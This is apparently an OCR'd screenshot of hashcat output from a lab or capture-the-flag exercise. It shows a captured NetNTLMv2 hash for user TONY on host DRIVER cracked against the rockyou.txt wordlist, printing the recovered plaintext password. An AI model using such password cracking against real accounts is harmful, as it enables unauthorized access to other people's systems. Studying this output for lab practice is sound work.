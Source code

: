 ```shell
Dictionary cache hit:                                                                                                                                                                                                                         
* Filename..: rockyou.txt                                                                                                                                                                                                                     
* Passwords.: 14344384                                                                                                                                                                                                                        
* Bytes.....: 139921497                                                                                                                                                                                                                       
* Keyspace..: 14344384                                                                                                                                                                                                                        
                                                                                                                                                                                                                                              
TONY::DRIVER:2b27e274bd76d58a:47494bed881df9aa73018cbe9d08826f:010100000000000080b8629eaa17da01af08a335675d48550000000002000800580032003200410001001e00570049004e002d0053004100550052004c00410045004f0038005600590004003400570049004e002d00530
04100550052004c00410045004f003800560059002e0058003200320041002e004c004f00430041004c000300140058003200320041002e004c004f00430041004c000500140058003200320041002e004c004f00430041004c000700080080b8629eaa17da01060004000200000008003000300000000
00000000000000000200000c1c6a3ebbf8ebcbc22aecf7621afba2243ac10f1cc64d8324da61e3a34c9fd7c0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310037002e0039003000000000000000000000000000:liltony       
                                                                                                                                                                                                                                              
Session..........: hashcat                                                                                                                                                                                                                    
Status...........: Cracked                                                                                                                                                                                                                    
Hash.Mode........: 5600 (NetNTLMv2)                                                                                                                                                                                                           
Hash.Target......: TONY::DRIVER:2b27e274bd76d58a:47494bed881df9aa73018...000000                                                                                                                                                               
Time.Started.....: Wed Nov 15 11:02:51 2023 (1 sec)                                                                                                                                                                                           
Time.Estimated...: Wed Nov 15 11:02:52 2023 (0 secs)                                                                                                                                                                                          
Kernel.Feature...: Pure Kernel                                                                                                                                                                                                                
Guess.Base.......: File (rockyou.txt)                                                                                                                                                                                                         
Guess.Queue......: 1/1 (100.00%)                                                                                                                                                                                                              
Speed.#1.........:  6249.7 kH/s (11.31ms) @ Accel:16 Loops:1 Thr:64 Vec:1                                                                                                                                                                     
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)                                                                                                                                                                 
Progress.........: 98304/14344384 (0.69%)                                                                                                                                                                                                     
```